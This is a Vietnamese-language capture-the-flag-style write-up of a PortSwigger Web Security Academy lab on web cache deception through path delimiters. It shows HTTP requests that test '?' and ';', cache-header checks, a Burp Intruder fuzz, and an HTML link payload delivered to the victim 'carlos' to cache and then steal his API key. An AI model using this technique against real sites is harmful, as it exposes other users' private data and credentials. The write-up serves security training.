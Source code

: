 ### Lab: Exploiting path delimiters for web cache deception
#### Exploit
- Login bằng account `wiener`
- Gửi request đến **Repeater**
- Gửi request đến `/my-account/xnxx.js` => `"Not found"`
- Sử dụng ký tự phân tách `?` 
    - **Server:** hiểu `?xnxx.css` là **query string** => **response** chứa **API key**
    - **Cache:** có thể cũng dùng `?` làm **delimiter** => không **cache**
    - Không thấy `X-Cache: hit` => không thành công

```http
GET /my-account?xnxx.css HTTP/2
Host: 0a7a00470405790980a7039900f20031.web-security-academy.net
```
- Sử dụng ký tự phân tách `;` 

```http
GET /my-account;xnxx.css HTTP/2
Host: 0a7a00470405790980a7039900f20031.web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Server: Apache-Coyote/1.1
Cache-Control: max-age=30
Age: 0
X-Cache: miss
```
- `X-Cache: miss` dấu hiệu **cache**
- Gửi lại lần nữa ta nhận được `X-Cache: hit` => đã được **cache**

#### Exploit
- Thêm **payload** vào body **exploit server** và gửi cho `carlos`

```html
<link href=https://0a7a00470405790980a7039900f20031.web-security-academy.net/my-account;pornhub.css rel=stylesheet>
```
- **Deliver to victim**
- Khi `carlos` truy cập link này
    - **Server** trả **response** chứa **API key** của `carlos`
    - **Cache** hiểu đó là `.css` => lưu lại **response**
    - Vì đây là truy cập lần 2 nên `X-Cache: hit`
- Truy cập vào đường dẫn `https://0a7a00470405790980a7039900f20031.web-security-academy.net/my-account;pornhub.css` để lấy **API key** của `carlos`
- Ngoài cách trên có thể tự động tìm kí tự phân tách bằng **Burp Intruder**

```http
GET /my-account§§xnxx.css HTTP/2
Host: 0a7a00470405790980a7039900f20031.web-security-academy.net
```
- Sử dụng [Delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)
- Tắt **URL-encode these characters**
